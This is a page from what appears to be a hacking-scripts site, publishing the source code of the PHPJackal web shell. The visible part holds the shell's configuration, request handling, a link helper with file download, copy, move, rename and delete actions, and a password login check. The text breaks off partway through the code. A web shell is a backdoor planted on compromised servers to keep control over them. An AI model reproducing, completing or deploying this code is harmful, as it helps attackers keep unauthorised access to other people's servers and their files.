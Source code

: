 ```yaml
---
id: 262
title: PHPJackal Shell
author: admin
layout: post
guid: http://hackingscripts.com/?p=262
permalink: /phpjackal-shell/
categories:
  - PHP
tags:
  - PHP
  - PHPJackal
---
```

PHPJackal v$v &#8211; Powered By NetJackal

## PHPJackal Shell Source Code

<pre class="brush: php; title: ; notranslate" title="">&lt;?php
#--Config--#
$login_password= ''; //Set password
#----------#
error_reporting(E_ALL);
set_time_limit(0);
ini_set("max_execution_time","0");
ini_set("memory_limit","9999M");
set_magic_quotes_runtime(0);
if(!isset($_SERVER))$_SERVER = &$HTTP_SERVER_VARS;
if(!isset($_POST))$_POST = &$HTTP_POST_VARS;
if(!isset($_GET))$_GET = &$HTTP_GET_VARS;
if(!isset($_COOKIE))$_COOKIE=$HTTP_COOKIE_VARS;
$_REQUEST = array_merge($_GET, $_POST);
if (get_magic_quotes_gpc()){
foreach ($_REQUEST as $key=&gt;$value)
{
$_REQUEST[$key]=stripslashes($value);
}
}
function hlinK($str=""){
$myvars=array('workingdiR','urL','imagE','namE','filE','downloaD','seC','cP','mV','rN','deL');
$ret=$_SERVER['PHP_SELF']."?";
$new=explode("&",$str);
foreach ($_GET as $key =&gt; $v){
$add=1;
foreach($new as $m){
$el = explode("=", $m);
if ($el[0]==$key)$add=0;
}
if($add)if(!in_array($key,$myvars))$ret.=$key."=".$v."&";
}
$ret.=$str;
return $ret;
}
if(!empty($login_password)){
if(!empty($_REQUEST['fpassw'])){
if($_REQUEST['fpassw']==$login_password)setcookie('passw',md5($_REQUEST['fpassw']));
@header("Location: ".hlinK());
}